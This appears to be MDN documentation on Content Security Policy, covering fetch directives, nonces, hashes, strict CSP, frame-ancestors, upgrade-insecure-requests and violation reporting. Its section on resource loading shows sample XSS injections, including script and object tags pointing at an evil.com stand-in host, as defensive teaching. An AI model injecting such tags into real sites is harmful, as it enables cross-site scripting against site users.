


{{HTTPSidebar}}

**Content Security Policy** (CSP) is a feature that helps to prevent or minimize the risk of certain types of security threats. It consists of a series of instructions from a website to a browser, which instruct the browser to place restrictions on the things that the code comprising the site is allowed to do.

The primary use case for CSP is to control which resources, in particular JavaScript resources, a document is allowed to load. This is mainly used as a defense against {{glossary("cross-site scripting")}} (XSS) attacks, in which an attacker is able to inject malicious code into the victim's site.

A CSP can have other purposes as well, including defending against {{glossary("clickjacking")}} and helping to ensure that a site's pages will be loaded over HTTPS.

In this guide we'll start by describing how a CSP is delivered to a browser and what it looks like at a high level.

Then we'll describe how it can be used to [control which resources are loaded](#controlling_resource_loading) to protect against XSS, and then other use cases such as [clickjacking protection](#clickjacking_protection) and [upgrading insecure requests](#upgrading_insecure_requests). Note that there's no dependency between the different use cases: if you want to add clickjacking protection but not XSS mitigation, you can just add the directives for that use case.

Finally we'll describe [strategies for deploying a CSP](#testing_your_policy) and tools that can help to make this process easier.

## CSP overview

A CSP should be delivered to the browser in the {{httpheader("Content-Security-Policy")}} response header. It should be set on all responses to all requests, not just the main document. You can also specify it using the [`http-equiv`](/en-US/docs/Web/HTML/Element/meta#http-equiv) attribute of your document's {{htmlelement("meta")}} element, but this does not support all CSP features and is not recommended for production sites.

The policy is specified as a series of _directives_, separated by semi-colons. Each directive controls a different aspect of the security policy. Each directive has a name, followed by a space, followed by a value. Different directives can have different syntaxes.

For example, consider the following CSP:

```plain
Content-Security-Policy: default-src 'self'; img-src 'self' example.com
```

It sets two directives:

- the `default-src` directive is set to `'self'`
- the `img-src` directive is set to `'self' example.com`.



In the next section, we'll look at the tools available to control resource loads, which is the main function of a CSP.

## Controlling resource loading

A web page usually doesn't consist of just an HTML document. It usually loads various other resources, such as JavaScript files, stylesheets, images, fonts, and so on, through HTML elements like {{htmlelement("script")}} or {{htmlelement("style")}}, CSS properties like {{cssxref("font")}} or {{cssxref("background-image")}}, and Web APIs like {{domxref("Window.fetch", "fetch()")}}.

By default a document can:

- load resources from any location
- embed inline JavaScript
- execute text as JavaScript using APIs like [`eval()`](/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval).

These abilities can enable XSS attacks, including:

- injecting a `<script>` tag that links to a malicious source:

  ```html
  <script src="https://evil.com/hacker.js"></script>
  ```

- injecting a malicious inline script:

  ```html
  <script>
    // something bad
  </script>
  ```

- tricking a site into executing a string containing malicious code:

  ```js
  eval("// something bad");
  ```

- injecting an {{htmlelement("object")}} element that loads a malicious plugin:

  ```html
  <object data="https://evil.com/hacker.plugin"></object>
  ```

So one of the main functions of a CSP is to control which resources a web page is allowed to load. In this section we'll look at the tools CSP provides for this, and then we'll look at one particular recommended strategy, which is called a "Strict CSP".

### Fetch directives

The group of CSP directives which control resource loads are called _fetch directives_. Fetch directives describe which resources — such as JavaScript, CSS stylesheets, images, fonts, and so on — a document is allowed to load.

There are different fetch directives for different types of resource. For example:

- `script-src` sets allowed sources for JavaScript.
- `style-src` sets allowed sources for CSS stylesheets.
- `img-src` sets allowed sources for images.

One special fetch directive is `default-src`, which sets a fallback policy for all resources whose directives are not explicitly listed.

For the complete set of fetch directives, see the [reference documentation](/en-US/docs/Web/HTTP/Headers/Content-Security-Policy#fetch_directives).

Each fetch directive is specified as either the single keyword `'none'` or one or more _source expressions_, separated by spaces. When more than one source expression is listed: if any of the methods allow the resource, then the resource is allowed.

For example, the CSP below sets two fetch directives:

- `default-src` is given the single source expression `'self'`
- `img-src` is given two source expressions: `'self'` and `example.com`



The effect of this is that:

- images must be either same-origin with the document, or loaded from `example.com`
- all other resources must be same-origin with the document.

In the next few sections we'll describe some of the ways you can use source expressions to control resource loads. Note that although we're describing them separately, these expressions can in general be combined: for example, a single fetch directive may include nonces as well as hostnames.

#### Blocking resources

To block a resource type entirely, use the `'none'` keyword. For example, the following directive blocks all {{htmlelement("object")}} and {{htmlelement("embed")}} resources:

```plain
object-src 'none'
```

Note that `'none'` cannot be combined with any other method: in practice, if any other source expressions are given alongside `'none'`, then they are ignored.

#### Scheme-based policies

Fetch directives can list a scheme, like `https:`, to allow resources that are served using that scheme. This, for example, allows a policy to require HTTPS for all resource loads:

```plain
default-src https:
```

#### Location-based policies

Fetch directives can control resource loads based on where the resource is.

The keyword `'self'` allows resources which are same-origin with the document itself:

```plain
img-src 'self'
```

You can also specify one or more hostnames, potentially including wildcards, and only resources served from those hosts will be allowed.

```plain
img-src *.example.org
```

You can specify multiple locations. The following directive allows only images that are same-origin with the current document, or are served from a subdomain of "example.org", or are served from "example.com":

```plain
img-src 'self' *.example.org  example.com
```

#### Nonces

With a nonce, the server generates a random value for every HTTP response, and includes it in the directive:

```plain
script-src 'nonce-416d1177-4d12-4e3b-b7c9-f6c409789fb8'
```

It then includes the same value as the `nonce` attribute of one or more {{htmlelement("script")}} or {{htmlelement("style")}} tags in the document.

The browser compares the two values, and loads the resource only if they match. The idea is that even if an attacker can insert some JavaScript into the page, they won't know which nonce the server is going to use, so the browser will refuse to run the script.

This means that it must not be possible for an attacker to guess the nonce: in practice this means that the nonce must be different for every HTTP response, and must not be predictable.

This in turn means that the server cannot serve static HTML, because it must insert a new nonce each time. Typically the server would use a templating engine to insert the nonce.

Here's a snippet of [Express](/en-US/docs/Learn/Server-side/Express_Nodejs) code to demonstrate:

```js
function content(nonce) {
  return `
    <script nonce="${nonce}" src="/main.js"></script>
    <script nonce="${nonce}">console.log("hello!");</script>
    <h1>Hello world</h1> 
    `;
}

app.get("/", (req, res) => {
  const nonce = crypto.randomUUID();
  res.setHeader("Content-Security-Policy", `script-src 'nonce-${nonce}'`);
  res.send(content(nonce));
});
```

On every request, the server generates a new nonce, inserts it into the CSP and into the {{htmlelement("script")}} tags in the returned document. Note that the server:

- generates a new nonce for every request
- can use nonces with both external and inline scripts
- uses the same nonce for all `<script>` tags in the document

It's important that the server uses some kind of templating to insert nonces, and does not just insert them into all `<script>` tags: otherwise, the server might inadvertently insert nonces into scripts that were injected by an attacker.

Note that nonces can only be used for elements that have a `nonce` attribute: that is, only `<script>` and `<style>` elements.

#### Hashes

Fetch directives can also use a hash of the script to guarantee its integrity. With this method, the server:

1. calculates a hash of the script contents using a {{glossary("cryptographic hash function")}} (one of SHA-256, SHA-384, or SHA-512)
2. creates a {{glossary("Base64")}} encoding of the result
3. appends a prefix identifying the hash algorithm used (one of `sha256-`, `sha384-`, or `sha512-`).

If then adds the result to the directive:

```plain
script-src 'sha256-cd9827ad...'
```

When the browser receives the document, it hashes the script, compares the result with the value from the header, and loads the script only if they match.

External scripts must also include the [`integrity`](/en-US/docs/Web/HTML/Element/script#integrity) attribute for this method to work.

Here's a snippet of Express code, to demonstrate:

```js
const hash1 = "sha256-ex2O7MWOzfczthhKm6azheryNVoERSFrPrdvxRtP8DI=";
const hash2 = "sha256-H/eahVJiG1zBXPQyXX0V6oaxkfiBdmanvfG9eZWSuEc=";

const csp = `script-src '${hash1}' '${hash2}'`;
const content = `
  <script src="./main.js" integrity="${hash2}"></script>
  <script>console.log("hello!");</script>
    <h1>Hello world</h1> 
    `;

app.get("/", (req, res) => {
  res.setHeader("Content-Security-Policy", csp);
  res.send(content);
});
```

Note that:

- We have a separate hash for every script in the document.
- For the external script "main.js", we also include the `integrity` attribute, and give it the same value.
- Unlike the example using nonces, both the CSP and the content can be static, because the hashes stay the same.

#### Inline JavaScript

If a CSP contains either a `default-src` or a `script-src` directive, then inline JavaScript will not be allowed to execute unless extra measures are taken to enable it. This includes:

- JavaScript included inside a `<script>` element in the page:

  ```html
  <script>
    console.log("Hello from an inline script");
  </script>
  ```

- JavaScript in an inline event handler attribute:

  ```html
  
  ```

- JavaScript in a `javascript:` URL:

  ```html
  <a href="javascript:console.log('Hello from a javascript: URL')"></a>
  ```

The `unsafe-inline` keyword can be used to override this restriction. For example, the following directive requires all resources to be same-origin, but allows inline JavaScript:

```plain example-bad
default-src 'self' 'unsafe-inline'
```

**Developers should avoid `'unsafe-inline'`, because it defeats much of the purpose of having a CSP.** Inline JavaScript is one of the most common XSS vectors, and one of the most basic goals of a CSP is to prevent its uncontrolled use.

Inline `<script>` elements are allowed if they are protected by a nonce or a hash, as described above. If a directive contains nonce or hash expressions, then the `unsafe-inline` keyword is ignored by browsers.

### `eval()` and similar APIs

Like inline JavaScript, if a CSP contains either a `default-src` or a `script-src` directive, then `eval()` and similar APIs will not be allowed to execute. This includes, among other APIs:

- [`eval()`](/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) itself:

  ```js
  eval('console.log("hello from eval()")');
  ```

- The {{jsxref("Function/Function()", "Function()")}} constructor:

  ```js
  const sum = new Function("a", "b", "return a + b");
  ```

- The string argument to {{domxref("setTimeout()")}} and {{domxref("setInterval()")}}:

  ```js
  setTimeout("console.log('hello from setTimeout')", 1);
  ```

The `unsafe-eval` keyword can be used to override this behavior, and as with `unsafe-inline`, and for the same reasons: **developers should avoid `unsafe-eval`**.

Unlike `unsafe-inline`, the `unsafe-eval` keyword does still work in a directive that contains nonce or hash expressions.

### Strict CSP

To control script loading as a mitigation against XSS, recommended practice is to use nonce- or hash- based fetch directives. This is called a _strict CSP_. This type of CSP has two main advantages over a location-based CSP (usually called an _allowlist CSP_):

- Allowlist CSPs are hard to get right and often don't provide effective protection against XSS (see [CSP Is Dead, Long Live CSP! On the Insecurity of Whitelists and the Future of Content Security Policy](https://dl.acm.org/doi/pdf/10.1145/2976749.2978363)).
- Allowlist CSPs can be very large and hard to maintain. According to [How I learned to stop worrying and love the Content Security Policy](https://www.netlify.com/blog/general-availability-content-security-policy-csp-nonce-integration/), just to integrate Google Analytics, a developer is asked to add 187 Google domains to the allowlist.

A nonce-based strict CSP looks like this:

```plain
Content-Security-Policy:
  script-src 'nonce-{RANDOM}';
  object-src 'none';
  base-uri 'none';
```

In this CSP, we:

- use nonces to control which JavaScript resources are allowed to load
- block all object embeds
- block all uses of the `<base>` element to set a base URI.

A hash-based strict CSP is the same, except it uses hashes instead of nonces:

```plain
Content-Security-Policy:
  script-src 'sha256-{HASHED_SCRIPT}';
  object-src 'none';
  base-uri 'none';
```

Nonce-based directives are easier to maintain if you can generate responses, including the content itself, dynamically. Otherwise, you need to use hash-based directives. The problem with hash-based directives is that you need to recalculate and reapply the hash if any change is made to the script contents.

#### The `strict-dynamic` keyword

As presented above, the strict CSP is difficult to implement when you use scripts which are not under your control. If a third-party script loads any additional scripts, or uses any inline scripts, then this will fail, because the third-party script won't pass the nonce or hash through.

The `strict-dynamic` keyword is provided to help with this problem. It is a keyword that can be included in a fetch directive, and it has the effect that if a script has a nonce or a hash attached to it, then that script will be allowed to load further scripts which do not themselves have nonces or hashes. That is, the trust placed in a script by a nonce or hash is passed on to scripts that the original script loads (and scripts that _they_ load, and so on).

For example, consider a document like this:

```html
<html>
  <head>
    <script
      src="./main.js"
      integrity="sha256-gEh1+8U9S1vkEuQSmmUMTZjyNSu5tIoECP4UXIEjMTk="></script>
  </head>
  <body>
    <h1>Example page!</h1>
  </body>
</html>
```

It includes a script "main.js", which creates and adds another script, "main2.js":

```js
console.log("hello");

const scriptElement = document.createElement("script");
scriptElement.src = `main2.js`;

document.head.appendChild(scriptElement);
```

We serve our document with a CSP like this:

```plain
script-src 'sha256-gEh1+8U9S1vkEuQSmmUMTZjyNSu5tIoECP4UXIEjMTk='
```

The "main.js" script will be allowed to load, because its hash matches the value in the CSP. But its attempt to load "main2.js" will fail.

If we add `'strict-dynamic'` to the CSP, then "main.js" will be allowed to load "main2.js":

```plain
script-src 'sha256-gEh1+8U9S1vkEuQSmmUMTZjyNSu5tIoECP4UXIEjMTk=' strict-dynamic
```

The `'strict-dynamic'` keyword makes it much easier to create and maintain nonce- or hash-based CSPs, especially when a website uses third-party scripts. It does make your CSP less secure, though, because if the scripts you include create `<script>` elements based on potential sources of XSS, then the CSP will not protect them.

#### Refactoring inline JavaScript and `eval()`

We've seen above that inline JavaScript is disallowed by default in a CSP. With nonces or hashes, a developer can use inline `<script>` tags, but you'll still need to refactor code to remove other disallowed patterns, including inline event handlers, `javascript:` URLs, and uses of `eval()`. For example, inline event handlers should usually be replaced with calls to {{domxref("EventTarget.addEventListener()", "addEventListener()")}}:

```html example-bad
<p onclick="console.log('Hello from an inline event handler')">click me</p>
```

```html
<!-- served with the following CSP:
 `script-src 'sha256-AjYfua7yQhrSlg807yyeaggxQ7rP9Lu0Odz7MZv8cL0='`
 -->
<p id="hello">click me</p>
<script>
  const hello = document.querySelector("#hello");
  hello.addEventListener("click", () => {
    console.log("Hello from an inline script");
  });
</script>
```

## Clickjacking protection

The [`frame-ancestors`](/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors) directive can be used to control which documents, if any, are allowed to embed this document in a nested browsing context such as an {{htmlelement("iframe")}}. This is an effective protection against clickjacking attacks, because these attacks depend on embedding the target site in a site controlled by the attacker.

The syntax of `frame-ancestors` is a subset of the fetch directive syntax: you can provide the single keyword value `'none'` or one or more source expressions. However, the only source expressions you can use are schemes, hostnames, or the `'self'` keyword value.

Unless you need your site to be embeddable, you should set `frame-ancestors` to `'none'`:

```plain
frame-ancestors 'none'
```

This directive is a more flexible replacement for the {{httpheader("X-Frame-Options")}} header.

## Upgrading insecure requests

Web developers are strongly encouraged to serve all their content over HTTPS. In the process of upgrading a site to HTTPS, a site sometimes serves the main document over HTTPS but serves its resources over HTTP, for example, using markup like this:

```html

```

This is called _mixed content_, and the presence of insecure resources greatly weakens the protection afforded by HTTPS. Under the [mixed content algorithm](/en-US/docs/Web/Security/Mixed_content) that browsers implement, if a document is served over HTTPS, insecure resources are categorized into "upgradable content" and "blockable content". Upgradable content is upgraded to HTTPS, and blockable content is blocked, potentially breaking the page.

The ultimate solution to mixed content is for developers to load all resources over HTTPS. However, even if a site is actually able to serve all content over HTTPS, it can still be very difficult (or even effectively impossible, where archived content is concerned) for a developer to rewrite all the URLs the site uses to load resources.

The [`upgrade-insecure-requests`](/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/upgrade-insecure-requests) directive is intended to solve this problem. This directive doesn't have any value: to set it, just include the directive name:

```plain
upgrade-insecure-requests
```

If this directive is set on a document, then the browser will automatically upgrade to HTTPS any HTTP URLs in the following cases:

- requests to load resources (such as images, scripts, or fonts)
- navigation requests (such as link targets) which are same-origin with the document
- navigation requests in nested browsing contexts, such as iframes
- form submissions

However, top-level navigation requests whose target is a different origin will not be upgraded.

For example, suppose the document at `https://example.org` is served with a CSP containing the `upgrade-insecure-requests` directive, and the document contains markup like this:

```html


```

The browser will automatically upgrade both of these requests to HTTPS.

Suppose the document also contains this:

```html
<a href="http://example.org/more-cats">See some more cats!</a>
<a href="http://not-example.org/even-more-cats">More cats, on another site!</a>
```

The browser will upgrade the first link to HTTPS, but not the second, as it is navigating to a different origin.

This directive is not a substitute for the {{httpheader("Strict-Transport-Security")}} header (also known as HSTS), because it does not upgrade external links to a site. Sites should include this directive and the `Strict-Transport-Security` header.

## Testing your policy

To ease deployment, CSP can be deployed in report-only mode.
The policy is not enforced, but any violations are reported to a provided URI.
Additionally, a report-only header can be used to test a future revision to a policy without actually deploying it.

You can use the {{HTTPHeader("Content-Security-Policy-Report-Only")}} HTTP header to specify your policy, like this:

```http
Content-Security-Policy-Report-Only: policy
```

If both a {{HTTPHeader("Content-Security-Policy-Report-Only")}} header and a {{HTTPHeader("Content-Security-Policy")}} header are present in the same response, both policies are honored.
The policy specified in `Content-Security-Policy` headers is enforced while the `Content-Security-Policy-Report-Only` policy generates reports but is not enforced.

### Violation reporting

The recommended method for reporting CSP violations is to use the [Reporting API](/en-US/docs/Web/API/Reporting_API), declaring endpoints in {{HTTPHeader("Reporting-Endpoints")}} and specifying one of them as the CSP reporting target using the `Content-Security-Policy` header's {{CSP("report-to")}} directive.

> [!WARNING]
> You can also use the CSP {{CSP("report-uri")}} directive to specify a target URL for CSP violation reports.
> This sends a slightly different JSON report format via a `POST` operation with a {{HTTPHeader("Content-Type")}} of `application/csp-report`.
> This approach is deprecated, but you should declare both until {{CSP("report-to")}} is supported in all browsers.
> For more information about the approach see the {{CSP("report-uri")}} topic.

A server can inform clients where to send reports using the {{HTTPHeader("Reporting-Endpoints")}} HTTP response header.
This header defines one or more endpoint URLs as a comma-separated list.
For example, to define a reporting endpoint named `csp-endpoint` which accepts reports at `https://example.com/csp-reports`, the server's response header could look like this:

```http
Reporting-Endpoints: csp-endpoint="https://example.com/csp-reports"
```

If you want to have multiple endpoints that handle different types of reports, you would specify them like this:

```http
Reporting-Endpoints: csp-endpoint="https://example.com/csp-reports",
                     hpkp-endpoint="https://example.com/hpkp-reports"
```

You can then use the `Content-Security-Policy` header's {{CSP("report-to")}} directive to specify that a particular defined endpoint should be used for reporting.
For example, to send CSP violation reports to `https://example.com/csp-reports` for the `default-src`, you might send response headers that look like the following:

```http
Reporting-Endpoints: csp-endpoint="https://example.com/csp-reports"
Content-Security-Policy: default-src 'self'; report-to csp-endpoint
```

When a CSP violation occurs, the browser sends the report as a JSON object to the specified endpoint via an HTTP `POST` operation, with a {{HTTPHeader("Content-Type")}} of `application/reports+json`.
The report is a serialized form of the {{domxref("Report")}} object containing a `type` property with a value of `"csp-violation"`, and a `body` that is the serialized form of a {{domxref("CSPViolationReportBody")}} object.

A typical object might look like this:

```json
{
  "age": 53531,
  "body": {
    "blockedURL": "inline",
    "columnNumber": 39,
    "disposition": "enforce",
    "documentURL": "https://example.com/csp-report",
    "effectiveDirective": "script-src-elem",
    "lineNumber": 121,
    "originalPolicy": "default-src 'self'; report-to csp-endpoint-name",
    "referrer": "https://www.google.com/",
    "sample": "console.log(\"lo\")",
    "sourceFile": "https://example.com/csp-report",
    "statusCode": 200
  },
  "type": "csp-violation",
  "url": "https://example.com/csp-report",
  "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36"
}
```

You need to set up a server to receive reports with the given JSON format and content type.
The server handling these requests can then store or process the incoming reports in a way that best suits your needs.

## See also

- [Mitigate cross-site scripting with a strict Content Security Policy](https://web.dev/strict-csp) on web.dev (2024)
- [Content Security Policy: A successful mess between hardening and mitigation](https://infocondb.org/con/locomocosec/locomocosec-2019/content-security-policy-a-successful-mess-between-hardening-and-mitigation)
- [Content Security Policy Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) on owasp.org
- [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
